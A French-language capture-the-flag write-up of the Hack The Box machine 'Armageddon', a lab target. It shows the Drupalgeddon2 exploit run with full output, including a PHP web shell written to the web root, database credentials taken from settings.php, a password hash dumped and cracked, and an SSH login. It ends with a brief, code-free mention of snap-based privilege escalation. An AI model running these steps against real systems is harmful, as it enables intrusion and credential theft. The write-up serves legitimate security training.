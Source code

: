 ```yaml
---
title: HTB | Armageddon
description: Armageddon is an easy difficulty machine.  An exploitable Drupal website allows access to the remote host. Enumeration of the Drupal file structure reveals credentials that allows us to connect to the MySQL server, and eventually extract the hash that is reusable for a system user. Using these credentials, we can connect to the remote machine over SSH. This user is allowed to install applications using the   snap   package manager. Privilege escalation is possible by uploading and installing to the host, a malicious application using Snapcraft.
slug: armageddon-htb
date: 2025-04-07 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Armageddon cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Armageddon</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.10.79</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Users
```bash
drupaluser : CQHEy@9M*m23gBVj
brucetherealadmin
```

## Enumeration

### nmap
```bash
┌──(kali㉿kali)-[~/htb/Armageddon]
└─$ nmap -sC -sV -An -T4 -vvv -p- 10.10.10.233
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDC2xdFP3J4cpINVArODYtbhv+uQNECQHDkzTeWL+4aLgKcJuIoA8dQdVuP2UaLUJ0XtbyuabPEBzJl3IHg3vztFZ8UEcS94KuWP09ghv6fhc7JbFYONVJTYLiEPD8nrS/V2EPEQJ2ubNXcZAR76X9SZqt11JTyQH/s6tPH+m3m/84NUU8PNb/dyhrFpCUmZzzJQ1zCDStLXJnCAOE7EfW2wNm1CBPCXn1wNvO3SKwokCm4GoMKHSM9rNb9FjGLIY0nq+8mt7RTJZ+WLdHsje3AkBk1yooGFF+0TdOj42YK2OtAKDQBWnBm1nqLQsmm/Va9T2bPYLLK5aUd4/578u7h
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE4kP4gQ5Th3eu3vz/kPWwlUCm+6BSM6M3Y43IuYVo3ppmJG+wKiabo/gVYLOwzG7js497Vr7eGIgsjUtbIGUrY=
|   256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG9ZlC3EA13xZbzvvdjZRWhnu9clFOUe7irG8kT0oR4A
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-robots.txt: 36 disallowed entries 
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
|_http-title: Welcome to  Armageddon |  Armageddon
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 1487A9908F898326EBABFFFD2407920D
```
## Foothold

### Drupal 7.56

On remarque dans le code source la version du framework utilisé : Drupal 7.

On trouve le dossier: http://10.10.10.233/scripts/
Les scripts datent du 21 juin 2017.

En regardant les releases de Drupal sur github, on découvre que la version Drupal 7.56 est sortie précisement à cette date :
https://github.com/drupal/drupal/releases/tag/7.56

Avec searchsploit, on trouve une RCE (sans authentification préalable) :
```bash
┌──(kali㉿kali)-[~/htb/Armageddon]
└─$ searchsploit drupal 7.56     
--------------------------------------------------------------- ---------------------------------
 Exploit Title    |  Path
--------------------------------------------------------------- ---------------------------------
...
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution     | php/webapps/44449.rb
...
```
Output:
```bash
┌──(kali㉿kali)-[~/htb/Armageddon]
└─$ ruby drupalggedon2.rb http://10.10.10.233
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.233/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.233/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo YAQXUKKI
[+] Result : YAQXUKKI
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.233/shell.php)
[!] Response: HTTP 200 // Size: 6.   ***Something could already be there?***
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://10.10.10.233/shell.php' -d 'c=hostname'
armageddon.htb>> whoami
apache
```

### Mysql Database
On trouve dans un fichier settings.php les creds pour la base de donnée mysql de Drupal.
```bash
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

### Getting hashes from bruce and admin
Toujours depuis le shell obtenu avec l'exploit (pas interfactif ! Mais assez stable). On récupère le hachage de bruce et admin :
```bash
armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e "SELECT * FROM users"
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu       a:1:{s:7:"overlay";i:1;}
```

### Cracking hashes of bruce (user.txt)
On le crack avec hashcat :
```bash
hashcat ./hash.txt ~/wordlists/rockyou.txt --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

7900 | Drupal7 | Forums, CMS, E-Commerce

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt:booboo
```
On se connecte en ssh à l'utilisateur brucetherealadmin :
```bash
┌──(kali㉿kali)-[~/htb/Armageddon]
└─$ ssh brucetherealadmin@10.10.10.233
brucetherealadmin@10.10.10.233's password: 
Last failed login: Thu Apr  3 22:28:06 BST 2025 from 10.10.14.17 on ssh:notty
There were 3 failed login attempts since the last successful login.
Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.5
[brucetherealadmin@armageddon ~]$ 
[brucetherealadmin@armageddon ~]$ whoami
brucetherealadmin
[brucetherealadmin@armageddon ~]$ cat user.txt
f0f8.....bbcc
```
## Privilege Escalation

### snap install as root
Il faut faire sudo -l. On observe qu'on peut executer "snap install" en tant que root. C'est à dire que l'on peut installer n'importe quel package snap en tant que root. Or, j'ai pu créer un packet vérolé qui s'installe et s'execute lors de l'installation, permettant l'ouverture d'un shell en tant que root.